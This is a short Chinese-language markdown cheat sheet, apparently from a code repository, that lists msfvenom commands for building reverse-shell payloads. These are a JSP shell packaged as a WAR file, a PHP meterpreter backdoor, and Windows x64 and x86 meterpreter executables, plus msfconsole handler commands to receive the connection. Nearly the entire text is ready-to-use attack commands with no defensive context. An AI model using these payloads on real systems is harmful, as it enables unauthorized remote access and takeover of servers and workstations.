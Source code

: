# war包

```
msfvenom -p java/jsp_shell_reverse_tcp Lhost=<ip> lport=<port> -f war -o <filename.war>
```

![image-20250330153901483](./assets/image-20250330153901483.png)



然后msfconsole开启监听

```
msfconsole
use exploit/multi/handler
set payload java/jsp_shell_reverse_tcp
set lhost <ip>
set lport <port>
run
```

![image-20250330153856775](./assets/image-20250330153856775.png)







# 生成php后门

```
msfvenom -p php/meterpreter/reverse_tcp lhost=<ip> lport=<端口> -f raw -o <filename>.php
```







# 生成win x64架构的exe文件

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<ip> lport=<端口> -f exe -o <filename>.exe
```







# 生成win x32架构的exe文件

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=<ip> lport=<端口> -f exe -o <filename>.exe
```

